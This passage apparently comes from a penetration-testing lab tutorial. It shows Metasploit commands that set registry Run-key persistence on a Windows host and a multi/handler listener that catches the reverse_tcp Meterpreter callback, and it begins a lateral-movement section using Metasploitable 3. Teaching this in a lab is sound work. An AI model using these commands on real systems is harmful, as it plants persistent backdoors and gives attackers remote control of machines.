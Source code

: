 
{{< alert icon="triangle-exclamation" cardColor="#fcf0e8" textColor="#eb974c" iconColor="#eb974c" >}}
If persistence isn't necessary for a penetration test, simply don't do it.
{{< /alert >}}

### 3.2 Registry Persistence Creation
MSF contains two main modules which are designed for Window persistence creation:
- `exploit/windows/local/persistence`
- `exploit/windows/local/registry_persistence`
Both will modify the registry value located within `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` and insert a VBS script in `C:\WINDOWS\TEMP\` which executes the script whenever the user boots up the machine.

1. Execute the following commands on MSF
```bash
meterpreter > background
msf6 > use exploit/windows/local/persistence
msf6 (windows/local/persistence) > set SESSION 1
msf6 (windows/local/persistence) > set STARTUP SYSTEM
msf6 (windows/local/persistence) > set LHOST 172.30.1.21
msf6 (windows/local/persistence) > set LPORT 87
msf6 (windows/local/persistence) > exploit
```

![Meterpreter-Windows-Persistence](Meterpreter-Windows-Persistence.png)

2. After creating a persistence payload on the target, connect to it with the following commands 
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 exploit(multi/handler) > set LPORT 87
msf6 exploit(multi/handler) > exploit
```

### 3.3 Lateral Movement and Pivoting
1. Turn on Metsploitable 3 Win2k8 and Metasploitable 3 Linux 
2. Obtain a Meterpreter shell and use the `arp` command 
